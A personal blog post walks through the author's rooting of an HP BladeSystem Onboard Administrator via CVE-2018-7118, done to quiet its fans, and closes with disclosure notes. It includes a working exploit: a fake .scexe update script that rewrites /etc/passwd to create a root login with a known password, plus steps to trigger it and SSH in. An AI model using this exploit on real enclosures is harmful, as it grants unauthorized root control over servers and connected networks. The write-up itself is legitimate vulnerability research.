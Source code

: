 +++
title = "CVE-2018-7118 - Rooting your HP BladeSystem"
date = 2021-09-15
aliases = ["articles/cve-2018-7118"]
description = "Too loud? Guess we have to root it."

[taxonomies]
tags = ["bladesystem", "homelab", "security"]
+++

## Because it's [far too loud](https://youtu.be/SR2gjyeXbow?t=69)

<small>(What, you had a nefarious reason to hack it? I just wanted to sleep.)</small>

The HP BladeSystem is a now fairly dated blade enclosure.  
I used to run one in my bedroom - someone told me I should try keeping the cloud closer to home - and sleeping wearing ear defenders gets old after a while.  
What to do? There's no way to configure the fan curve and they can hit 18,000 RPM.


## Enter [CVE-2018-7118](https://nvd.nist.gov/vuln/detail/CVE-2018-7118)

Let's look at the firmware. Firmware for the bladesystem enclosure manager is available online. This vulnerability is present in OA firmware <= 4.80.

```bash
$ sha256sum hpoa480.bin
12809d4f96198b8c23480edf4b31c756dd58260b5d319d9becd7eb5a6f9b854f *hpoa480.bin
$ binwalk hpoa480.bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
213           0xD5            uImage header, header size: 64 bytes, header CRC: 0x559534C9, created: 2017-12-13 11:17:17, image size: 1522926 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x3A7352C0, OS: Linux, CPU: PowerPC, image type: OS Kernel Image, compression type: gzip, image name: "Linux-2.6.17.9-udog"
277           0x115           gzip compressed data, maximum compression, from Unix, last modified: 2017-12-13 11:17:16
1523203       0x173E03        uImage header, header size: 64 bytes, header CRC: 0x9F09FD6A, created: 2017-12-13 11:10:30, image size: 3692025 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x80788EF4, OS: Linux, CPU: PowerPC, image type: RAMDisk Image, compression type: gzip, image name: ""initrd 171213-1007 build""
1523267       0x173E43        gzip compressed data, maximum compression, has original file name: "udog-initrd", from Unix, last modified: 2017-12-13 11:10:27
5215292       0x4F943C        Squashfs filesystem, big endian, version 2.1, size: 7447206 bytes, 2124 inodes, blocksize: 65536 bytes, created: 2017-12-13 11:10:26
12665972      0xC14474        uImage header, header size: 64 bytes, header CRC: 0x9ECEFB67, created: 2017-12-13 11:24:53, image size: 1532777 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x3555C9E5, OS: Linux, CPU: PowerPC, image type: OS Kernel Image, compression type: gzip, image name: "Linux-2.6.17.9-udog-440EPX"
12666036      0xC144B4        gzip compressed data, maximum compression, from Unix, last modified: 2017-12-13 11:24:53
14198813      0xD8A81D        Squashfs filesystem, big endian, version 2.1, size: 1111378 bytes, 47 inodes, blocksize: 65536 bytes, created: 2017-12-13 11:10:27
15313456      0xE9AA30        PEM certificate
15315387      0xE9B1BB        PEM certificate
15317046      0xE9B836        PEM certificate
``` 

Use `binwalk -e` on the firmware image to extract the multiple squashfs filesystems' contents.

I already have an idea of where I want to look: I know the firmware upgrade process for the blades involves loading an SPP iso on the onboard administrator and unpacking the firmware from it.  
I had a guess there might be some sort of unsafe extraction along the lines of [zip slip](https://snyk.io/research/zip-slip-vulnerability) - but for an RPM or HP SCEXE format instead - and looked for the code which handles this.

The majority of HP's custom binaries and scripts for the OA can be found under the sbin folder in the first squashfs `squashfs-root\sbin`.
`fw_mgmtd` is responsible for running firmware updates, and runs as root. To try to find more information about `scexe` unpacking, let's `grep` for that.

```bash
$ strings _hpoa480.bin.extracted/squashfs-root/sbin/fw_mgmtd | grep -i scexe
/ramdisk/unpack-scexe.lock
/usr/sbin/unpack-scexe %s >/dev/null 2>&1
Successfully unpacked HPE SCEXE SmartComponents.
HPE SCEXE Components are not found, Searching for RPM Components.
Unable to locate and/or unpack SCEXE/RPM HPE SmartComponents. OA/iLO will not be updated.
```

Looks like it calls `unpack-scexe`, which is a script. Nice! No need to disassemble to work out what this is doing.

```bash
dbg_echo ">>>>>>>>>>Unpacking $2:"
sh $2.scexe --unpack=$2  
rc=$?
rm $2.scexe
if [ $rc -eq 0 ]; then
    dbg_echo "Successfully unpacked $2"
    return $rc
else
    dbg_echo ">>>> Failed to unpack $2.scexe"
    return $rc
fi
```

### The exploit steps

Oh dear. It runs the supplied .scexe file as a script. Let's try replacing the HP supplied update with a shell script of our own choosing.  
The Linux install on this is extremely stripped down, no `passwd` command here.

```bash
#!/bin/sh
#!scexe

_SKIP=347
_INTERFACE_VERSION=scexe-interface-1.03-22
_INSTALLER=flash_ilo4

# the udog user already exists on this system with uid 0 before we touch anything
# the hash here is for the password compaq
# 
echo "udog:pD.WvCQWQJ4Kc:0:0:0,,:/:/bin/sh" > /etc/passwd.new
grep -v -e '^udog:' /etc/passwd >> /etc/passwd.new
mv /etc/passwd.new /etc/passwd
chmod 666 /etc/passwd
chown 1:1 /etc/passwd
exit 1
```

Replace/add it at this path `hp/swpackages/root.scexe`. Put the new SPP ISO somewhere accessible by the OA, either on an HTTP(no S) server or on an ext2 partition on a flash drive plugged into it.  
Use the web UI to start firmware management.  
Wait for it to fail the iLO upgrade step with `Unable to locate and/or unpack SCEXE/RPM HPE SmartComponents. OA/iLO will not be updated.`  
SSH in with username `udog` password `compaq`.

![](and-we're-in.png "Screenshot of an active root shell running on the BladeSystem c3000 OA")



## Now to finally slow down those fans

Patching the thermal management code to use a different fan curve is probably the more correct way of fixing this, but that's a more involved process for another post if I ever run a BladeSystem again.
A simple fix which sets the fan speed every 10 seconds on a loop worked fine for me. The `fan` binary this calls is already provided by HP.

```bash
#!/bin/sh
# slowfan.sh

SPD=40
if [ $# -eq 1 ]; then
	SPD=$1
fi

while true; do
	sleep 10
	# i'm not being paid enough to put a loop here
	fan 1 $SPD
	fan 2 $SPD
	fan 3 $SPD
	fan 4 $SPD
	fan 5 $SPD
	fan 6 $SPD
done
```

A little crude, but functional.

## Responsible Disclosure, HPE, and the Onboard Administrator as a juicy target

HPE don't operate a public bug bounty program, and provided no compensation for reporting this issue.
It is likely there are other security issues with the Onboard Administrator - the very first thing I looked at as a plausible escalation path worked, which doesn't bode well - but don't have much incentive to look into them as I got what I needed and can control the fan speed.
Keep any Onboard Administrator safely isolated from anything less trusted than it as getting root on it means full access to: 

* The blades' iLO
* Whatever is running on those blades
* Any network physically connected to the VirtualConnect switches
* Any storage connected to other types of interconnect modules
* The potential to tamper with the firmware on any inserted device without any audit trail

The particular vulnerability here requires someone to already have access to an account with permissions to trigger firmware upgrades, but it is very plausible that a path starting with anonymous access to here exists.
